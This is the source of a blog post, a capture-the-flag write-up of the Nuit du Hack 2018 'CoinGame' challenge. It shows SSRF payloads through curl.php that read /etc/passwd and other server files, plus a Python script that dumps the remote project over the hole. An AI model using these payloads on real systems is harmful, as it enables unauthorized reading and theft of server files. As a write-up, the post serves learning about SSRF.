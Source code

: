 ```yaml
---
layout: post
title:  Nuit du Hack CTF Quals 2018 - CoinGame
author:
  name: onionpsy & Crisis
comments: true
---
```

This was the challenge's description:  
```
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```

![website](/medias/ndhqual18/site.png)  
And this was the website, which as you can see is rather basic : there's just one input, waiting for an url, and the post button. The post is actually doing a curl with the value passed in the `way` param: `/curl.php?way=<url>`

After some tests, we noticed that we could read server files with the `ftp://` or `file://` commands. Like that: `curl.php?way=file:///etc/passwd`.  
![SSRF](/medias/ndhqual18/etcpasswd.png)  
Great, looks like a [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

We kept looking and found one interesting file `curl.php?way=file:///etc/default/tftpd-hpa`:
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure —create" 
```
It seems like the "game" was transfered on the server through FTP, in the "/home/CoinGame" directory.
We tried to find some logfiles that might have helped us find files but we unfortunately found nothing. After a while, We found that a [server-status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) was actually installed on `curl.php?way=http://localhost/server-status`

Between the spam of requests, we found some weird queries like: `curl.php?way=file:///home/CoinGame/TouchMonsterFiles.py`. We tried and boom, it worked. It looks like it was the game from the description. We searched for the code on the internet, and we quickly found the repo on [Github](https://github.com/totheyellowmoon/CoinGame).

After digging the server for a while, we didn't find anything interesting. So we decided to dump the project locally and make a `diff` between the 2 games through a script (don't mind the code pls). `list` was a file containing the list of all the files of the project:

```python
import os
import wget

url = 'http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/'
out = '/tmp/out/'

with open('list') as f: # create the directories
	for line in f:
		dirname = os.path.dirname(out + line)
		if not os.path.exists(dirname):
			try:
				os.makedirs(dirname)
			except Exception as e:
				pass
				
with open('list') as f: # download the files
	for line in f:
		line = line.rstrip()
		try:
			wget.download(url + line, out=out + line)
		except Exception as e:
			print(e)
			pass
```

Once it was downloaded, we just had to make a diff between the 2 folders: 
```bash
diff --brief -r CoinGame/ /tmp/out/
```  

```
Files CoinGame/Avatars/ArchmageAntonidusHearthstone#.png and /tmp/out/Avatars/ArchmageAntonidusHearthstone#.png differ
Files CoinGame/Avatars/ChefOgre#.png and /tmp/out/Avatars/ChefOgre#.png differ
Files CoinGame/Avatars/Chevalier_noir#.png and /tmp/out/Avatars/Chevalier_noir#.png differ
Only in /tmp/out/Avatars: curl.php
Files CoinGame/Avatars/Demon#.png and /tmp/out/Avatars/Demon#.png differ
Files CoinGame/Avatars/ForetSauvage#.png and /tmp/out/Avatars/ForetSauvage#.png differ
Files CoinGame/Avatars/Gobelin#.png and /tmp/out/Avatars/Gobelin#.png differ
Files CoinGame/Avatars/Legion#.png and /tmp/out/Avatars/Legion#.png differ
Files CoinGame/Avatars/LeRoi#.png and /tmp/out/Avatars/LeRoi#.png differ
Files CoinGame/Avatars/MaitreOmbre#.png and /tmp/out/Avatars/MaitreOmbre#.png differ
Files CoinGame/Avatars/poseidon#.png and /tmp/out/Avatars/poseidon#.png differ
Files CoinGame/Avatars/RobotAlpha#.png and /tmp/out/Avatars/RobotAlpha#.png differ
Files CoinGame/Avatars/Roi_des_Nains#.png and /tmp/out/Avatars/Roi_des_Nains#.png differ
Files CoinGame/Avatars/SeigneurDragon#.png and /tmp/out/Avatars/SeigneurDragon#.png differ
Files CoinGame/Avatars/SeigneurNoir#.png and /tmp/out/Avatars/SeigneurNoir#.png differ
Files CoinGame/Avatars/Vikings#.png and /tmp/out/Avatars/Vikings#.png differ
Only in /tmp/out/CardFiles: curl.php
Only in /tmp/out/Cards: curl.php
Only in /tmp/out/Decks: curl.php
Only in /tmp/out: dump.txt
Files CoinGame/gameAnimationImages/background1.png and /tmp/out/gameAnimationImages/background1.png differ
Files CoinGame/gameAnimationImages/background2.png and /tmp/out/gameAnimationImages/background2.png differ
Files CoinGame/gameAnimationImages/background3.png and /tmp/out/gameAnimationImages/background3.png differ
Files CoinGame/gameAnimationImages/background.png and /tmp/out/gameAnimationImages/background.png differ
Files CoinGame/gameAnimationImages/Card_face_avant_black.gif and /tmp/out/gameAnimationImages/Card_face_avant_black.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_blue.gif and /tmp/out/gameAnimationImages/Card_face_avant_blue.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.gif and /tmp/out/gameAnimationImages/Card_face_avant.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.jpg and /tmp/out/gameAnimationImages/Card_face_avant.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.gif and /tmp/out/gameAnimationImages/Card_face_avant_v3.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v3.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.gif and /tmp/out/gameAnimationImages/Card_face_avant_v4.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v4.jpg differ
Only in /tmp/out/gameAnimationImages: curl.php
Only in CoinGame/: .git
Only in CoinGame/photo: bebe-dragon (1).jpg
Only in /tmp/out/photo: curl.php
Only in CoinGame/photo: Demon cornu.jpg
Only in CoinGame/photo: Drag
Only in CoinGame/photo: mangeur de crapau.jpg
Only in CoinGame/photo: Moderne
Only in CoinGame/photo: New
Only in CoinGame/photo: Ogres
Only in CoinGame/photo: petit etre_7247.jpg
Only in CoinGame/photo: portail demoniaque.jpg
Only in CoinGame/photo: portail oblivion.jpg
Only in CoinGame/photo: reve
Only in CoinGame/photo: serpents tournants.jpg
Only in CoinGame/photo: Source de vie.jpg
```
We quickly checked every image and we saw the actual flag on all `backgroundX.png` :  
![flag](/medias/ndhqual18/flag.png)  

Done :)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = "NDHQUAL18CoinGame"; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://phi0-1.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript> 
{% endif %}